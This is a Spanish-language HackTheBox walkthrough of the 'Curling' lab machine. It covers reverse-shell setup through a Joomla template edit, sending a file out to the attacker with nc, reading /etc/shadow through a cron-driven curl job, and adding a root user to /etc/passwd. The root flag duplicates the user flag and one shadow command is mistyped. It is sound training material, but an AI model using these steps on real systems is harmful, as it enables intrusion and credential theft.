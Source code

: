 title: [Writeup] HackTheBox: Curling
tags: cft, hackthebox, writeup, curling
slug: htb-curling-writeup
date: 2019-12-10

![Info](images/htb/curling/info.png)

Disclaimer: My first box ever.

Primero podemos hacer una simple enumeración de la máquina para ver los servicios corriendo allí y similares.

Con Nmap en mi caso fue como sigue

```
nmap -sV -sC -oA curling 10.10.10.150
```

![nmap](images/htb/curling/nmap.png)

Vemos que tenemos un servidor ssh coriendo en la maquina y un servidor Apache con un sitio web que usa Joomla. Intenté hacer fuerza bruta al servidor ssh y fracasé miserablemente. 

No obstante, podemos echarle un ojo al sitio web y hacer el típico "Click derecho > Ver código fuente" ya que es algo usual en este tipo de retos que haya una pista allí. En el código fuente casi al final del sitio antes del `</html>` podemos ver una pista como se muestra abajo.

```HTML
</body>
      <!-- secret.txt -->
</html>
```

Probamos en el navegador web yendo a `10.10.10.150/secret.txt`, en mi caso. Efectivamente, el archivo existe y contiene lo que parece ser una texto codificado en base64, ¿Será una contraseña?

```bash
wget 10.10.10.150/secret.txt
cat secret.txt
```

```
Q3VybGluZzIwMTgh
```

Probamos decodificarlo a ver que dice

```bash
echo "Q3VybGluZzIwMTgh" | base64 -d
```

```
Curling2018!
```

Nos arroja el resultado arriba lo que sí parece ser una contraseña.

De vuelta a la raíz del sitio web podemos ver en algunos lados palabras como "pebble", "curling2018!" y el usuario "Floris". Como ya sabemos que el sitio web usa Joomla por los resultados de Nmap y otras cosas (como el icono del sitio web) nos vamos al panel de administración en `http://10.10.10.150/administrator/`.


Luego de probar con el usuario "Floris" y la contraseña arriba y fracasar probamos con el mismo usuario pero todo en minúsculas y la misma contraseña y ya estamos dentro!


![panel Joomla](images/htb/curling/panel_joomla.png)

```
Usuario: floris
Contraseña: Curling2018!
```

![Ya en Joomla](images/htb/curling/logueado.png)

Ya estamos dentro de Joomla, ahora hay que idear una manera para obtener una shell. Para este caso lo haremos de la siguiente manera:

1. Ir a Extensions > Templates > Templates
2. Le damos click a un template cualquiera
3. Seleccionamos un archivo como `error.php`

![Editar template](images/htb/curling/subir_shell.png)

4. Reemplazamos todo el contenido de ese archivo con el contenido de esta shell en php [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Es una buena idea revisar 
5. Es una buena idea revisar el código de la shell. Para nuestro caso debemos modificar la variable `$ip` en ese archivo y poner el valor de nuestra IP local en la red, podemos dejar `%port` tal cual esta. Presionamos `Save`, por supuesto.


```php
$ip = '10.10.13.129';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

6. Ahora ponemos en nuestra máquina ncat a escuchar en el puerto `1234`

```bash
nc -vlp 1234
```
7. Vamos al directorio de templates de Joomla hacia el template y archivo que modificamos directamente en el navegador

```
http://10.10.10.150/templates/beez3/error.php
```

Y nos vamos a nuestra terminal donde esta ncat corriendo en el puerto `1234`.

![Tenemos shell](images/htb/curling/got_shell.png)

Perfecto, ya tenemos una reverse shell!

*Nota: Resolver el problema de tty que dice arriba con `/usr/bin/python3.6m -c 'import pty; pty.spawn("/bin/bash")'`*.

Veamos que podemos obtener sin ser root. 

![Primeros datos](images/htb/curling/init_0.png)


Ese archivo `password_backup` aunque dice ser archivo regular más bien parece ocultar algo. El archivo comienza con el texto `BZh91AY&SY`, el cual es un encabezado de los archivos `bzip2` si no me equivoco. 

Ahora vamos a pasar el archivo a nuestra maquina para inspeccionarlo  con `binwalk` a ver que encontramos

Atacante:
```
nc -lvp 7777 > password_backup
```


Victima:

 ```
 nc 10.10.13.129 7777 < password_backup
```

![binwalk](images/htb/curling/binwalk.png)

Oh, es un archivo comprimido bzip2. A descomprimirlo!

```bash
xxd -r password_backup > backup
bzip2 -d backup
mv backup.out backup.gz
gunzip backup.gz
tar xvf backup
```

El último comando, el `tar xvf`, da como resultado el archivo

```
password.txt
```

![Password](images/htb/curling/password.png)

Ok, ahora probemos en la shell con usuario floris y esa password tal cual.

![Hash User](images/htb/curling/user.png)

user.txt
```
82c198ab6fc5365fdc6da2ee5c26064a
```

Bien! Ahora a buscar la forma de hacernos root!

![admin-area](images/htb/curling/input_wut.png)

Parecería como que usando `cURL` cada cierto tiempo (~x segundos) acceden a la `URL` en el archivo "input" y con el resultado llenan el archivo "report".

Probemos. Sobreescrimos el archivo `/home/floris/admin-area/input` como se muestra debajo

```
echo "url = file:///127.0.0.1/../../../root/root.txt" > input
```

Monitoreamos hasta que sea leído por lo que sea que este leyendo el archivo y escribiendo a "report". Luego que notemos haya sido modificado el hash de root debería estar en el archivo "report".

![root hash](images/htb/curling/root_hash.png)

root.txt
```
82c198ab6fc5365fdc6da2ee5c26064a
```

## Obteniendo accesos como root

Hace un tiempo largo que trabajé en esta máquina antes de terminar el writeup, así que me faltan apuntes e imágenes y demás. Pero para obtener acceso como root, ya que la flag de root para los puntos en HackTheBox la obtuve como mostré antes, obtuve el archivo `/etc/passwd` y el `/etc/shadow` usando la misma técnica que usé para obtener la flag de root.txt. 

Para el `passwd`:

```
url = file:///etc/passwd
```

Para el `shadow`:

```
url = file:///etc/passwd
```

Envié ambos archivos a mi máquina atacante para poder modificarlo más cómodo y así agregar un usuario con permisos de root, al cual llamé `domi`. Utilizé la técnica descrita en [Manually Editing User inside /etc/passwd File](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/), (la sección del mismo nombre que el link aquí). Es básicamente, sólo agregar el usuario al `passwd` duplicando la linea de `root` y cambiando el nombre, luego generar una password con el cifrado correcto usando `OpenSSL`.

![root](images/htb/curling/root.png)

Para terminar muestro el job de crontab que tomaba el archivo `input` y generaba el `report`, en la imágen siguiente.

![cron job](images/htb/curling/cron_job.png)



